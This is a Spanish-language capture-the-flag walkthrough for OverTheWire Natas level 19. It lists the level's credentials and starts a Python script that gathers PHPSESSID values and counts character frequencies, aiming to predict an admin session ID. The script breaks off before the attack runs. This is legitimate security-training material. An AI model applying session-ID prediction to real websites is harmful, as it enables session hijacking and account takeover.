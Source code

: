 ### NIVEL 19

Ingresamos las credenciales para el nivel 19.

* **Usuario:** `natas19`
* **Contraseña:** `tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

Tras iniciar sesión, nos encontramos con la página de inicio del **Nivel 19**.  Se nos muestra en la página para hacer **Login** con nuestro usuario y contraseña. Como los valores de `PHPSESSID` no siguen un patrón secuencial, es necesario analizar la aleatoriedad para intentar predecirlos. Para lograr esto, debemos recolectar una cantidad significativa de valores de `PHPSESSID` generados y luego aplicar técnicas estadísticas para entender el patrón.

<figure><img src="../../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

```python
#!/usr/bin/env python

import requests
import os
import sys

def collect_stat(phpsessid, sess_id):
    for i in range(len(sess_id)):
        char_at_pos = phpsessid[i]
        char_at_pos[sess_id[i]] += 1

def get_max(chars={}):
    max_freq = 0
    max_char = 'a'
    for c in chars:
        if chars[c] >= max_freq:
            max_freq = chars[c]
            max_char = c
    return max_char, max_freq

def print_stat(phpsessid, n_captures):
    i = 0
    for c in phpsessid:
        l, f = get_max(c)
        print(("  char at position %2.1d of PHPSESSID is '%c' with accuracy %2.2f%%") %
              (i, l, (f*100)/n_captures))
        i += 1

target = 'http://natas19.natas.labs.overthewire.org'
auth = ('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
params = dict(username='admin', password='admin')
cookies = dict()

# Recopila PHPSESSIDs
filename = './phpsessids.txt'
```